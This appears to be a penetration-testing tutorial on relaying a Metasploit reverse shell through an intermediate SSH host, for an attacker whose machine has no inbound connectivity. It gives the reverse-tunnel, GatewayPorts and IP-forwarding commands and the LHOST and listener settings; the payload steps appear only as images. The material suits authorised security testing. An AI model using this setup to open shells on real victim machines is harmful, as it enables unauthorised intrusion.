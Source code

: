 # Reverse shell from behind a firewall using an intermediate SSH host

## Scenario
The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.

The attacking machine could be hosted in a private network, behind a firewall with NAT or even connected to the Tor network with only outbound connectivity possible.

![Image](images/1.png)

The payload used for the reverse shell can be anything desired from Metasploit's suite of reverse payloads.

## Setup
The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using the SSH protocol to proxy the connections.

Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) can establish a connection to the proxy host (10.0.0.1) and can also reach victim host (172.16.0.1). The vicim host can connect to the proxy host -

![Image](images/2.png)

Before exploitation, a reverse SSH tunnel is established from the attacking host to the proxy host by invoking the ssh client with the `-R` switch. Connections are forwarded to localhost. In this example, port 4444 is used for both the local and remote bind port -

```bash
ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```
![Image](images/3.png)

By default, SSHD will listen to the loopback interface only on the remote host. We want to allow external connectivity to port 4444 on our proxy host so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. You can verify this is working (i.e 0.0.0.0) -

``` bash
$ netstat -tan | grep 4444
tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
tcp6       0      0 :::4444                :::*                    LISTEN     
```

Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
`sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.

Now everything is setup, the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -

![Image](images/4.png)

As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively be proxied to the attacker over the reverse SSH tunnel. We then obtain a reverse shell -

![Image](images/5.png)

There are two settings that must be configured in Metasploit for this to work -

1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)

2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`

## Example
Recapping and putting this all together with an example payload -

1) On the attacking machine, connect to the SSH proxy and create a reverse tunnel -

```
# ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
```

2) Open msfconsole and configure and execute -  

![Image](images/7.png)
